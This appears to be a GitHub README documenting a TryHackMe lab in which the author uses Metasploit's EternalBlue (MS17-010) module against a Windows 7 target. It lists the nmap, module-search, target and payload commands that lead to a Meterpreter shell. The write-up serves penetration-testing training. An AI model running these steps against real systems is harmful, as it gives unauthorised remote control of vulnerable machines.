








# 🔥 Metasploit EternalBlue Lab (MS17-010)

A hands-on penetration testing lab demonstrating the exploitation of the **MS17-010 (EternalBlue)** vulnerability using the **Metasploit Framework** against a vulnerable **Windows 7 Professional SP1 x64** machine in an authorized **TryHackMe** environment.

---

## 📌 Lab Information

| Category         | Details                        |
| ---------------- | ------------------------------ |
| Platform         | TryHackMe                      |
| Room             | Metasploit: Introduction       |
| Vulnerability    | MS17-010 (EternalBlue)         |
| Target           | Windows 7 Professional SP1 x64 |
| Framework        | Metasploit                     |
| Enumeration Tool | Nmap                           |
| Session          | Meterpreter                    |
| Status           | ✅ Completed                    |

---

## 🎯 Objective

The objective of this lab was to:

* Perform network enumeration using Nmap
* Identify a vulnerable SMB service
* Search and select the EternalBlue exploit module
* Configure Metasploit exploit options
* Select a suitable payload
* Exploit the vulnerable machine
* Establish a successful Meterpreter session

---

## 🛠️ Tools Used

* Kali Linux
* Nmap
* Metasploit Framework
* Meterpreter
* TryHackMe AttackBox

---

# Step 1: Initial Enumeration

Performed service and operating system detection using Nmap:

```bash
nmap -sC -sV -O <TARGET-IP>
```

### Findings

* SMB service detected on port 445
* Target identified as Windows 7 Professional SP1
* Potentially vulnerable to MS17-010



---

# Step 2: Start Metasploit

```bash
msfconsole
```



---

# Step 3: Search for EternalBlue Exploit

```bash
search eternalblue
```

Selected module:

```text
exploit/windows/smb/ms17_010_eternalblue
```



---

# Step 4: Display Module Options

```bash
show options
```

Verified required exploit parameters.



---

# Step 5: Configure Target

```bash
set RHOSTS <TARGET-IP>
```



---

# Step 6: Display Available Payloads

```bash
show payloads
```

Selected a compatible payload.



---

# Step 7: Configure Payload and Execute Exploit

```bash
set payload 3
exploit
```

Successfully exploited the vulnerable SMB service.


---

# Step 8: Meterpreter Session Established

Successfully obtained a Meterpreter shell.

```bash
meterpreter >
```



---

# Room Completion

Successfully completed the TryHackMe Metasploit Introduction room.



---

## 📚 Skills Learned

* Network Enumeration
* Service Fingerprinting
* SMB Exploitation
* MS17-010 (EternalBlue)
* Metasploit Framework Usage
* Payload Selection
* Meterpreter Session Management
* Basic Post-Exploitation

---

## ⚠️ Disclaimer

This repository is intended for educational and research purposes only. All activities demonstrated were performed within authorized lab environments provided by TryHackMe. Do not attempt these techniques against systems without explicit permission.

---

## 👨‍💻 Author

**Uday Bhale**

* GitHub: https://github.com/udaybhale
* LinkedIn: https://www.linkedin.com/in/udaybhale
